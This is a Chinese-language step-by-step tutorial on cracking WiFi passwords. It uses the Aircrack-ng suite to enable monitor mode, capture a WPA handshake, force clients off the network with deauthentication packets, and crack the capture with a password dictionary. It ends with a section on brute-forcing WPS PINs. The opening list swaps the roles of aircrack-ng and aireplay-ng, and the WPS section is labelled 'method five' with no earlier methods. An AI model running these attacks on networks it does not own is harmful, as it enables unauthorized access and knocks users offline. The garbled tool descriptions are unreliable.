

# WIFI破解

### 使用Aircrack-ng套件抓包和破解wifi

Aircrack-ng套件：

airmon-ng（监听流量）、airodump-ng（抓无线握手包）、aircrack-ng（强制用户断开认证）、aireplay-ng（破解密码）

### 第一步 airmon-ng列出网卡信息

也可以使用 iwconfig 查看 无线网卡工作状态

我这里测试使用的是无线网卡wlan0。
自己的网卡是Qualcomm xxxx不知道为什么扫描不到wifi信号，只能买了一个网卡。。。

### 第二步 airmon-ng start wlan0 开启网卡监控

如果启动失败，可以尝试先清理一下阻碍的进程，运行如下命令后重新输入开启监控的命令

airmon-ng check kill

airmon-ng stop wlan0mon #可以关闭网卡监控模式

可以使用ifconfig命令查看一下网卡信息，网卡的名字已经变了——wlan0mon。

网卡wlan0后面增加了mon（monitor）,说明wlan0监听模式启动成功。

### 第三步 airodump-ng wlan0mon 扫描wifi信号

按Q或者【Ctrl+ C】可以退出并停止扫描。

这里我用自己家的wifi做实验【CMCC-FNgH】

参数介绍：

1. 第四步 airodump-ng 抓取握手包
上图获取wifi信息如下：

BSSID是—— 8C:8F:8B:D2:F0:26
信道(CH)是—— 8

输入：

airodump-ng -c 8 -w wificap.cap --bssid 8C:8F:8B:D2:F0:26 wlan0mon
-c：指定信道
-w：指定抓去握手包的存放位置或者名字，wificap.cap 是一会抓去的握手包的名字
–bssid：指定路由器的MAC

当看到这个界面就表示正在抓取握手包了。

这里的STATION下的 9C:BC:F0:D1:65:8A 就是正在使用这个wifi的客户端（手机、电脑等）

### 第五步 aireplay-ng 强制用户断开wifi重连

再开一个终端输入命令：

aireplay-ng -0 10 -a 路由器MAC -c 客户机MAC wlan0mon

使用airplay-ng工具强制断开已经连接到wifi的设备断开链接，当设备重新连接路由器时，我们就可以抓到认证包了！

–0：指定发送反认证包（deauth）的个数

- a：指定路由器的MAC
- c：指定客户机的MAC

当airodump-ng 命令执行界面看到如下界面，就表示已经抓到握手包了，接下来就是破解hash了，你的cpu够强大吗？

当然，如果执行aireplay-ng一次不能够抓到握手包，那么就再执行一次！

或者尝试重新运行抓包命令airodump-ng，注意一定要有STATION（有设备连接目标wifi）才能抓包！

### 第六步 使用密码字典，破解握手包

看一下抓到的文件：

其中xxxx.cap文件就是我们接下来要执行破解的握手包啦~开心吧！

执行以下命令破解握手包：

aircrack-ng -a2 -w /home/eli/captures/dict.txt wificap.cap-01.cap

- a1：指定WEP加密方式【-a可省略】
-a2：指定WPA-PSk加密方式【-a可省略】
dict.txt：密码字典的文件路径【绝对路径】
xxxxx.cap：握手包【绝对路径】

破解完成，成功与否靠强大的字典和运气了，破解速度就看你的CPU啦。

方法五：针对有wps功能的路由器，使用PIN码破解
简单来说，对于开启了WPS功能的路由器，当你知道了它的pin码，就可以连接到wifi并获取明文密码，不再需要其他认证措施。

pin码有8位，第8位是校验和，可以根据前7位算出，而这7位中前4位和后3位是分别认证的，认证成功会给出提示，所以爆破pin码只需11000次(10^4+10^3)即可保证100%成功。